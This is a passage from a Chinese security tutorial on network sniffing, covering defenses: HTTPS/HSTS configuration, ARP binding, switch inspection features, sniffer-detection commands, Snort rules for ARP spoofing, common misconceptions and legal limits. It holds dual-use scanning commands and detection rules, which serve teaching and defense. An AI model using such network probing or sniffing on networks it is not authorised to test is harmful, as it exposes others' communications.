| VPN隧道 | 加密所有网络流量 | 远程办公、公共WiFi | 中 |
| DNS over HTTPS/TLS | 加密DNS查询 | 防止DNS窥探 | 低 |

**Nginx 强制 HTTPS 配置示例：**

```nginx
server {
    listen 80;
    server_name example.com;
    return 301 https://$server_name$request_uri;
}

server {
    listen 443 ssl http2;
    server_name example.com;
    
    ssl_certificate /etc/letsencrypt/live/example.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/example.com/privkey.pem;
    ssl_protocols TLSv1.2 TLSv1.3;
    ssl_ciphers ECDHE-ECDSA-AES128-GCM-SHA256:ECDHE-RSA-AES128-GCM-SHA256;
    
    # HSTS头：告诉浏览器始终使用HTTPS
    add_header Strict-Transport-Security "max-age=31536000; includeSubDomains" always;
}
```

#### 3.8.2 网络层防御

```bash
# 1. 静态ARP绑定（防止ARP欺骗导致的嗅探）
# Linux
sudo arp -s 192.168.1.1 00:11:22:33:44:55

# Windows
netsh interface ip add neighbors "Ethernet" "192.168.1.1" "00-11-22-33-44-55"

# 2. 使用arpwatch监控ARP表变化
sudo apt install arpwatch
sudo systemctl start arpwatch
# 检查日志
sudo tail -f /var/log/syslog | grep arpwatch

# 3. 启用交换机的DAI（Dynamic ARP Inspection）
# Cisco交换机配置示例
# switch(config)# ip arp inspection vlan 100
# switch(config)# ip arp inspection validate src-mac dst-mac ip
# switch(config-if)# ip arp inspection trust  # 信任上行端口

# 4. 启用DHCP Snooping（DAI的前置依赖）
# switch(config)# ip dhcp snooping
# switch(config)# ip dhcp snooping vlan 100
# switch(config-if)# ip dhcp snooping trust  # 信任DHCP服务器端口
```

#### 3.8.3 检测嗅探器的存在

检测网络中是否存在混杂模式设备：

```bash
# 方法1：发送目标MAC不存在的ARP请求
# 混杂模式的设备会响应，正常设备会忽略
sudo nmap -sn --send-eth --dest-mac 00:00:00:00:00:01 192.168.1.0/24

# 方法2：使用antisniff工具
# 发送各种畸形包，检测混杂模式网卡的异常响应
sudo apt install antisniff

# 方法3：检查网络中的异常ARP流量
tshark -i eth0 -Y "arp" -T fields \
  -e arp.src.hw_mac -e arp.src.proto_ipv4 -e arp.dst.proto_ipv4 \
  | sort | uniq -c | sort -rn

# 方法4：使用arpwatch检测ARP表异常
# arpwatch会在MAC-IP映射发生变化时发送告警邮件
```

#### 3.8.4 企业级检测方案



**Snort 检测 ARP 欺骗的规则示例：**

```text
# 检测ARP响应中的MAC地址与已知不符
alert arp any any -> any any (
    msg:"Possible ARP Spoofing Detected";
    arp_opcode: 2;
    threshold: type both, track by_src, count 10, seconds 60;
    sid:1000001; rev:1;
)

# 检测ARP请求泛洪（可能的MAC泛洪攻击）
alert arp any any -> any any (
    msg:"ARP Flood Detected";
    arp_opcode: 1;
    threshold: type both, track by_src, count 50, seconds 10;
    sid:1000002; rev:1;
)
```

### 3.9 常见误区与纠正

| 误区 | 事实 | 后果 |
|-----|------|-----|
| "交换网络中无法嗅探" | ARP欺骗可以绕过交换机的转发隔离 | 安全意识松懈，不做任何防护 |
| "HTTPS绝对安全，不会泄露信息" | SNI、证书、流量分析仍可泄露访问目标 | 只部署HTTPS就认为万事大吉 |
| "WiFi加密了就安全" | WPA2可以被离线字典攻击破解 | 使用弱密码保护WiFi |
| "公司内网不需要加密" | 内部威胁和横向移动是真实风险 | 内部服务使用明文协议 |
| "嗅探只能在局域网进行" | BGP劫持、运营商级嗅探是真实威胁 | 忽略传输链路上游的风险 |
| "VPN能解决所有问题" | VPN出口节点仍可被嗅探；DNS可能泄露 | 过度依赖单一防护手段 |
| "用arp -a看ARP表就能检测ARP欺骗" | 静态检查无法发现动态变化的欺骗 | 错过实时攻击 |

### 3.10 法律与道德边界

**合法嗅探的场景：**

- 对自己拥有或明确授权的网络进行安全测试
- 企业安全团队在授权范围内进行内部审计
- 网络管理员排查自己管理的网络故障
- 在隔离的实验环境中进行学习和研究
- 执法机关依法进行的网络取证

**违法嗅探的特征：**

- 未授权截获他人通信内容（违反《刑法》第252条侵犯通信自由罪）
- 非法获取计算机信息系统数据（违反《刑法》第285条）
- 窃取商业秘密或个人信息（违反《反不正当竞争法》《个人信息保护法》）
- 在公共场所WiFi上嗅探他人流量

**核心原则：没有书面授权，不要对任何非自己所有的网络进行嗅探操作。**

### 3.11 本案例小结

本案例从底层原理到高级工具，系统覆盖了网络嗅探与敏感信息提取的完整技术链：

- **原理层**：混杂模式、协议栈解析、不同网络拓扑下的嗅探能力差异
- **工具层**：tcpdump、tshark、Wireshark、Scapy、Bettercap、mitmproxy
- **协议层**：HTTP明文凭证、FTP密码、HTTPS元信息、WiFi WPA2握手
- **自动化层**：Python脚本实现多协议嗅探、凭证提取、会话捕获
- **防御层**：HTTPS部署、ARP防护、入侵检测、企业级监控方案

掌握嗅探技术的核心价值不仅在于攻击层面的技能提升，更在于理解数据在网络中是如何暴露的，从而在防御侧做出正确的安全架构决策——加密通信、最小权限、零信任网络，这些安全原则的根源都可以追溯到"网络流量是可以被截获和分析的"这一基本事实。
